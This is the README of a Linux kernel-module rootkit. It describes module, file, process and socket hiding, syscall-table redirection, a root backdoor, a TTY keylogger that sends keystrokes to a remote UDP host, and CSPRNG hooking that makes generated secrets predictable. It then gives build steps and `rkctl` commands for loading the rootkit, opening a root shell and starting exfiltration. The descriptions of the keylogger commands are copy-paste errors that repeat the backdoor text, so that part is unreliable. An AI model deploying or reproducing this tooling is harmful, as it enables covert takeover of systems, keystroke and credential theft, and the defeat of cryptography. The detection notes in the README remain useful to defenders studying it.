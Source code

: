 # LKM-TLSKIT

A Linux rootkit, based on a Linux Kernel Module.

> This rootkit has been developed on Linux kernel version 4.19.0-12-amd64
on Debian 10.6

## Features

* **Module hiding:** 

The kernel module is hidden from lsmod and /sys/module. This is done by remapping
the module's core layout such that the memory of the rootkit is unlinked from the kernel
module. It allows unloading the kernel module and destroying all the corresponding files,
while keeping the rootkit alive. This approach seems to be more stealthy than just hiding
the module via syscall hooking and removing the module from internal kernel lists.
     
* **SYSCALL hooking:**

The rootkit supports syscall hooking by redirecting syscalls from the user-space to 
a faked syscall table. In this ways, integrity checks on the syscall table will pass, since
the original syscall table will never be modified. In contrast, integrity checks on the
code itself will detect the rootkit, but due to runtime-patching of the kernel, 
this is more difficult to achieve.

The technique uses pattern matching on assembly code, starting at the address where the 
LSTAR MSR register points to (either entry_SYSCALL_64 or entry_SYSCALL_64_trampoline).

When the pattern matching fails (e.g. when different compiler versions are used that 
implements different optimizations) we will simply override the syscall table instead,
which is less stealthy and allows rootkit detection via syscall table integrity checks. 

* **File hiding:**

Files that contain the "user.rootkit" extended attribute are hidden from the user space
by hooking the getdents(64) syscall.

Extended attributes can be set via the *setfattr* tool.

* **Privilege Escalation via Backdoor:**

Execute an arbitrary program as root.

* **Process hiding:**

Process hiding is implemented by filtering the /proc directory. Tools, such as
*ps* will create a process list based on the files in the */proc* directory. 

Hidden processes can be detected from a hypervisor using the *lx-ps* gdb script, which
lists all processes based on the task_struct list, instead of checking the /proc directory.
To avoid this kind of detection, the corresponding task_struct is removed from the internal
tasks list. (This does not work for children of hidden tasks, yet.)

It must be ensured that the tasks list contains the task_struct of a task that is terminated or
killed, otherwise the kernel would panic. Therefore, the *do_exit* function is hooked via the 
ftrace hooking technique to reinsert the task into the tasks list, before the real *do_exit* 
function will be executed. 
Further, the proc filter is removed for the corresponding pid, such that the
process is only hidden during its lifetime and not for upcoming processes that obtain the same pid.

* **Socket hiding:**

A socket can be hidden from user space regarding its transport protocol (TCP/UDP) 
and its assigned port. This is implemented by hooking the *recvmsg()* syscall and the
*show()* methods of the udp, udp6, tcp and tcp6 sequence operations from the */proc*
directory.

* **Keylogger:**

A keylogger that hooks the tty->read function to receive all the input data from TTY/PTY
pseudoterminals, which is used for the user interface, ssh, docker, ...
The data will then be sent to an UDP server, control characters will be parsed to a specific string format.

* **CSPRNG hooking:**

The rootkit hooks the cryptographic secure pseudo random number generator (CSPRNG) from the
operating system and returns predictable random values, which allows the recalculation
of secrets generated by cryptographic libraries from the userspace (e.g. openssl). 
In case of Linux, this is */dev/random*, */dev/urandom* and the *getrandom()* syscall.

## Build dependencies

`apt-get install linux-headers-$(uname -r)`

## Build

A Makefile is provided for building the kernel module rootkit and its user-space
control program:

``make``

## Installation

The installation of the tlskit is done via the user-space control program.
See ***load*** and ***unload*** in the **Usage** section.

## Usage
The rootkit can be controlled via a user-space control program. 

The rootkit control program supports the following commands:

* ***Ping:*** 

    Check if the rootkit is currently alive: 

    ``./rkctl ping``

* ***Load:***

    Load the kernel module and install the rootkit: 

    ``./rkctl load <module.ko>``

* ***Unload:***

    Unload the rootkit: 

    ``./rkctl unload``
    
* ***Backdoor:***

    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl backdoor <program>``
    
* ***Start Keylogger:***   
 
    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl keylog_start <ip> <port>``

* ***Stop Keylogger:***

    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl keylog_stop``
    
* ***Hide a Process:***

    Hide a process and all its successors by pid (can be testes by tools like *ps* or *top*): 

    ``./rkctl hidepid_add <pid>``
    
* ***Unhide a Process:***

    Unhide a hidden process and all its successors by pid: 

    ``./rkctl hidepid_rm <pid>``
    
* ***Hide a Socket:***

    Hide a TCP or UDP socket, given its port (can be verified by using 'netstat -tunpa' or 'ss -tunpa'): 

    ``./rkctl hide_socket_tcp <port>``
    
    ``./rkctl hide_socket_udp <port>``
    
* ***Unhide a Socket:***

    Unhide a TCP or UDP socket, given its port: 

    ``./rkctl unhide_socket_tcp <port>``
    
    ``./rkctl unhide_socket_udp <port>``